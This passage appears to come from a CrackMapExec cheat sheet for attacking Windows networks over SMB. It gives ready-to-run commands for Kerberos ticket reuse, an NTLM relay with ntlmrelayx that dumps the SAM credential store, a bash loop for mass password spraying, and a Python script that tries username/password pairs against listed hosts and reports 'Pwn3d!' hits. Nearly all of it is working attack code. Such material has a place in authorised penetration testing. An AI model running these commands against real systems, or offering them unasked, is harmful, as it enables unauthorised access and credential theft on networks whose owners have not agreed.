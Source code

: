 #### Kerberos Authentication
```bash
# Use Kerberos ticket
crackmapexec smb target.domain.local --use-kcache

# Specify ticket cache
crackmapexec smb target.domain.local --use-kcache --kcache /tmp/krb5cc_0
```

#### NTLM Relay Integration
```bash
# Use with ntlmrelayx
# Terminal 1: Start ntlmrelayx
ntlmrelayx.py -tf targets.txt -c "crackmapexec smb targets.txt -u username -p password --sam"

# Terminal 2: Trigger authentication
# Use various methods to trigger NTLM authentication
```

### Scripting and Automation

#### Bash Automation
```bash
#!/bin/bash
# Mass credential testing script

TARGETS="targets.txt"
USERS="users.txt"
PASSWORDS="passwords.txt"

while read -r target; do
    echo "Testing $target"
    crackmapexec smb "$target" -u "$USERS" -p "$PASSWORDS" --continue-on-success
done < "$TARGETS"
```

#### Python Integration
```python
#!/usr/bin/env python3
import subprocess
import sys

def test_credentials(target, username, password):
    cmd = f"crackmapexec smb {target} -u {username} -p {password}"
    result = subprocess.run(cmd.split(), capture_output=True, text=True)
    
    if "Pwn3d!" in result.stdout:
        print(f"[+] Success: {username}:{password} on {target}")
        return True
    return False

# Usage
targets = ["192.168.1.10", "192.168.1.11"]
credentials = [("admin", "password"), ("user", "123456")]

for target in targets:
    for username, password in credentials:
        test_credentials(target, username, password)
```
